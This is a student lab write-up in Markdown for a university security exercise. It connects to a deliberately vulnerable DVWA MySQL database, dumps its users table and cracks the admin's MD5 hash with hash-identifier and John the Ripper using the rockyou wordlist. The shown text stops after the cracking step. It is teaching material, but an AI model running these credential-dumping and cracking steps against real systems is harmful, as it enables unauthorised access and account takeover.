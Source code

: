 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.

2. Do offline cracking of password hashes found in the database.

3. Learn from real-world crypto mistakes and suggest better ways.

4. Write a report in GitHub (Markdown) and show a short demo.

## LAB TASK
### 1. Service enumeration and initial access
I try to connect to the database using:

 ```
 my sql -h 192.168.100.131
 ```
but it shows error ><

![alt text](screenshot/mysql_error.png)

**WHY DOES THIS HAPPEN?**

This is because  MySQL Server  enforcing SSL/TLS, but the client and server disagree on the encryption protocol version.

**HOW TO FIX IT?**

we need to disabled SSL so we can make a connection. Use:

```
mysql -h 192.168.100.131 -u root --ssl=off
```
*by doing this we have disable SSL and bypasses the error but our credentials are not secured as it is not encrypted*


![alt text](screenshot/mysql-success.png)


### 2. USER ENUMERATION AND WEAK AUTHENTICATION

next step is to gte the information about the database using:

```bash
show databases;
```


![alt text](screenshot/show-databases.png)



*here we can see the dvwa which are vulnerable*

so we will be needing to look trough dvwa table using:


```bash 
use dvwa;
```


![alt text](screenshot/use-dvwa.png)


we will need to list the table so use:


```bash
show tables;
```


![alt text](screenshot/show-tables.png)



*as we found user's database now we can use it*


try too look for passwords in users database using:


```bash
select * from users;
```


![alt text](screenshot/users-database.png)



*From this output we can crack the password that we choose.In this case i choose admin's passwords which is:*


```bash
5f4dcc3b5aa765d61d8327deb882cf99
```

Now lets try to figure out what kind of hash is that.


### 3. PASSWORD HASH DISCOVERY AND HASH IDENTIFICATION


we will be using hash-identifier tool. To open it using kali type :


```bash 
hash-identifier
```


![alt text](screenshot/hash-id.png)



enter the hash and we will get the result !!



![alt text](screenshot/identifier-result.png)



4. CRACK THE PASSWORD



create file hash.txt and paste the hash in it. Use :


```
echo "5f4dcc3b5aa765d61d8327deb882cf99">hash.txt  
```


![alt text](screenshot/hash-txt.png)



Then we will need to crack it using john the reaper. Use:


```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```


![alt text](screenshot/pass-crack.png)


fnally now we can show the password using:


```
john --show --format=raw-md5 hash.txt 
```


![alt text](screenshot/crack-result.png)



